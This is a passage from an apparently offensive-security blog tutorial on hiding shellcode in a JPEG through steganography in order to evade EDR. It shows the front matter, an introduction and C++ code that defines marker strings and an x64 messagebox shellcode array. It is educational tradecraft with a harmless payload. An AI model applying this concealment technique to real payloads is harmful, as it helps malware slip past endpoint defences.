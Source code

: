 ```yaml
---
title:  "Steganography is still relevant!"
header:
  teaser: "/assets/images/stego1.png"
categories:
  - Steganography
tags:
  - payload
  - shellcode
  - post-exploitation
  - '2025'
  - g3tsyst3m
---
```


Hi all!  Today we have a guest on the blog.  Let me introduce you to Phoebe, a hacker extraordinaire who is assisting me in today's steganography lesson.  

![stego2](https://github.com/user-attachments/assets/c7db062f-94c5-4aeb-a918-6762b3d55a8b)

I'm convinced that due to Phoebe's cuteness, she can bypass EDR with ease, all while playing with shellcode.  What do you think?  Have you ever witnessed an EDR solution using cuteness as a rationale for allowing an analyzed file with unusual data to pass through it?  Let's see if we can make it happen!  😺  I'm going to use C++ for our coding language of preference.  Bear in mind, this is a simple demonstration of using steganography to conceal and execute shellcode.  You could easily add more layers of obfuscation and encoding to make this even more innocuous than it already is.

***Code to Hide Shellcode in JPEG image***
-

We will start with the standard headers, setup a beginning marker and ending marker to locate our shellcode in the picture, and our [messagebox shellcode](https://g3tsyst3m.github.io/shellcoding/assembly/debugging/x64-Assembly-and-Shellcoding-101-Part-5/):

```cpp

#include <iostream>
#include <fstream>
#include <vector>
#include <string>
#include <algorithm>

const std::string BEGIN_MARKER = "phoebe_b";  // Marker for the beginning of shellcode
const std::string END_MARKER = "phoebe_e";      // Marker for the end of shellcode

// The shellcode to embed, specified directly in the code
unsigned char shellcode[] = 
"\x48\x83\xec\x28\x48\x83\xe4\xf0\x48\x31\xc9\x65\x48\x8b\x41\x60\x48\x8b\x40\x18\x48\x8b"
"\x70\x10\x48\x8b\x36\x48\x8b\x36\x48\x8b\x5e\x30\x49\x89\xd8\x8b\x5b\x3c\x4c\x01\xc3\x48"
"\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x44\x8b\x52\x14\x4d"
"\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4c\x89\xd1\x48\xb8\x64\x64\x72\x65\x73\x73\x90\x90"
"\x48\xc1\xe0\x10\x48\xc1\xe8\x10\x50\x48\xb8\x47\x65\x74\x50\x72\x6f\x63\x41\x50\x48\x89"
"\xe0\x67\xe3\x20\x31\xdb\x41\x8b\x1c\x8b\x4c\x01\xc3\x48\xff\xc9\x4c\x8b\x08\x4c\x39\x0b"
"\x75\xe9\x44\x8b\x48\x08\x44\x39\x4b\x08\x74\x03\x75\xdd\xcc\x51\x41\x5f\x49\xff\xc7\x4d"
"\x31\xdb\x44\x8b\x5a\x1c\x4d\x01\xc3\x43\x8b\x04\xbb\x4c\x01\xc0\x50\x41\x5f\x4d\x89\xfc"
"\x4c\x89\xc7\x4c\x89\xc1\xb8\x61\x72\x79\x41\x50\x48\xb8\x4c\x6f\x61\x64\x4c\x69\x62\x72"
"\x50\x48\x89\xe2\x48\x83\xec\x30\x41\xff\xd7\x48\x83\xc4\x30\x49\x89\xc7\x4d\x89\xe6\x48"
"\x89\xf9\xb8\x65\x73\x73\x90\xc1\xe0\x08\xc1\xe8\x08\x50\x48\xb8\x45\x78\x69\x74\x50\x72"
"\x6f\x63\x50\x48\x89\xe2\x48\x83\xec\x30\x41\xff\xd6\x48\x83\xc4\x30\x49\x89\xc6\xb8\x6c"
"\x6c\x90\x90\xc1\xe0\x10\xc1\xe8\x10\x50\x48\xb8\x75\x73\x65\x72\x33\x32\x2e\x64\x50\x48"
"\x89\xe1\x48\x83\xec\x30\x41\xff\xd7\x48\x89\xc7\x48\x89\xf9\xb8\x6f\x78\x41\x90\xc1\xe0"
"\x08\xc1\xe8\x08\x50\x48\xb8\x4d\x65\x73\x73\x61\x67\x65\x42\x50\x48\x89\xe2\x48\x83\xec"
"\x30\x41\xff\xd4\x49\x89\xc7\x48\x31\xc9\xb8\x6d\x90\x90\x90\xc1\xe0\x18\xc1\xe8\x18\x50"
"\x48\xb8\x67\x33\x74\x73\x79\x73\x74\x33\x50\x48\x89\xe2\x49\x89\xe0\x45\x31\xc9\x48\x83"
"\xec\x30\x41\xff\xd7\x48\x83\xc4\x30\x31\xc9\x41\xff\xd6";
```